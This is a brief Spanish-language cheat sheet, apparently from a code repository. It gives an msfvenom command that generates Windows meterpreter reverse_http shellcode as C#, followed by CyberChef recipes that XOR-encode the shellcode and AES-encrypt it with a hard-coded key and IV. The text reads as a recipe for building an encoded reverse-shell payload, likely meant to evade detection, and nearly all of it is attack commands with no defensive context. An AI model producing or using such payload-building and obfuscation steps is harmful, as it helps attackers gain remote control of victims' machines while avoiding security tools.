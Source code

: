 # Shell bitecode

    msfvenom -p windows/x64/meterpreter/reverse_http LHOST=... LPORT=... -f csharp

# Recetas:

### Xor

Encodear 2 veces

    https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')XOR(%7B'option':'Hex','string':'5c'%7D,'Standard',false)To_Hex('0x%20with%20comma',0)

### AES

    https://gchq.github.io/CyberChef/#recipe=From_Hex('0x%20with%20comma')AES_Encrypt(%7B'option':'Hex','string':'1f768bd57cbf021b251deb0791d8c197'%7D,%7B'option':'Hex','string':'ee7d63936ac1f286d8e4c5ca82dfa5e2'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D)To_Base64('A-Za-z0-9%2B/%3D')


